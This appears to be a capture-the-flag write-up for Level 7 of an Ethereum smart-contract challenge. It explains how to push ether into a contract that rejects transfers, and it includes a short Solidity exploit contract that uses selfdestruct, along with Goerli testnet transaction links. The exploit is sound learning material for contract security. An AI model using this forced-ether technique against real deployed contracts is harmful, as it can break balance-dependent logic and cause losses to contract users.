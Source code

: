 Level 7
==========================================================================================================================================

Deployment transaction: https://goerli.etherscan.io/tx/0x9ba2c6c789dfe5d478d32033d442dcedba6e9311319c225533c7008e332f97b9
Submission transaction: https://goerli.etherscan.io/tx/0xbe749442ba3ebe464bcc0f6a178a20890c4bda155d23ac26f52cfd743e115cf2

-------
This challenge's task is to send ether to the Force contract. 
It does not accept ethers via transfer/send/call functions.
Our options would be then to either mine blocks with this contract's address or to selfdestruct a contract passing Force's contract address
as argument. 

#### The exploit contract:

```
    address forceAddress;

    constructor(address _forceAddress) payable{
        forceAddress = _forceAddress;
    }

 function exploit() public {
        selfdestruct(forceAddress);
    }
```



[Selfdestruct tx](https://goerli.etherscan.io/tx/0x536cd16e5936c4519ac892197cfb0ce7fe82e5330578e8d0516d9aa69bb52283)








